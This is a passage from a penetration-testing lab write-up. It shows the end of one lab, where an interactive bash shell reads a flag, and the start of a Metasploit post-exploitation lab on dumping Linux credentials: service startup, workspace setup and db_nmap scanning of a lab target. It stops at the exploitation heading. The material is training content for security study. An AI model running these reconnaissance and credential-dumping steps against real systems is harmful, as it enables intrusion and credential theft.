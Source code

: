 ```bash
/bin/bash -i
ls
cat flag
```

<figure><img src="../../../../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `9db8bf8f483ff50857f26f9bd636bed6`
{% endhint %}

***

## &#x20;Lab 3 - Dumping Hashes <a href="#lab-3-dumping-hashes" id="lab-3-dumping-hashes"></a>

> 🔬 [Post Exploitation Lab II](https://www.attackdefense.com/challengedetails?cid=195)
>
> * Target IP: `192.156.158.3`
> * Metasploit **`post/linux/gather/`** credentials dumping modules

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.156.158.3
workspace -a Linux_PostExp
db_nmap -sV 192.156.158.3
```

```bash
[*] Nmap: Not shown: 998 closed ports
[*] Nmap: PORT    STATE SERVICE     VERSION
[*] Nmap: 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: MAC Address: 02:42:C0:9C:9E:03 (Unknown)
[*] Nmap: Service Info: Host: VICTIM-1
```

### Exploitation <a href="#exploitation-1" id="exploitation-1"></a>

